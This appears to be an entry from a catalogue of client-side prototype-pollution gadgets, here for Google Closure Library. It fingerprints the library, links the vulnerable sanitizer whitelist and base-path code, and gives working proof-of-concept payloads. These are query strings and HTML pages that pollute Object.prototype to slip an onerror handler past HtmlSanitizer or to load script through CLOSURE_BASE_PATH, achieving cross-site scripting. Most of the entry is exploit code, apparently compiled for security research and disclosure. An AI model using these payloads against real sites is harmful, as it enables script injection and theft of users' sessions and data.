 ## Closure

URL: https://github.com/google/closure-library/

### JS Fingerprint
```
return (typeof goog !== 'undefined' && typeof goog.basePath !== 'undefined')
```

### Vulnerable code fragment
https://github.com/google/closure-library/blob/5a0002f16c91d41f5de3dc7bdcafe9b74b1b4fa0/closure/goog/html/sanitizer/attributewhitelist.js#L22-L107
```js
goog.html.sanitizer.AttributeWhitelist = {
  '* ARIA-CHECKED': true,
  '* ARIA-COLCOUNT': true,
  '* ARIA-COLINDEX': true,
  '* ARIA-CONTROLS': true,
  '* ARIA-DESCRIBEDBY': tru
...
}
```
https://github.com/google/closure-library/blob/88f3857a26ec5ead36b4b49cb6c3f011cc534971/closure/goog/base.js#L2210-L2214
```js
  goog.findBasePath_ = function() {
    if (goog.global.CLOSURE_BASE_PATH != undefined &&
        // Anti DOM-clobbering runtime check (b/37736576).
        typeof goog.global.CLOSURE_BASE_PATH === 'string') {
      goog.basePath = goog.global.CLOSURE_BASE_PATH;
```

### PoC

#### AttributeWhitelist

```
?__proto__[*%20ONERROR]=1&__proto__[*%20SRC]=1
```

```html
<script>
  Object.prototype['* ONERROR'] = 1;
  Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
<body>
<script>
  const html = '<img src onerror=alert(1)>';
  const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
  const sanitized = sanitizer.sanitize(html);
  const node = goog.dom.safeHtmlToNode(sanitized);
          
  document.body.append(node);
</script>
```

#### CLOSURE_BASE_PATH

```
?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//
```

```html
<script>
  Object.prototype.CLOSURE_BASE_PATH = 'data:,alert(1)//';
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
```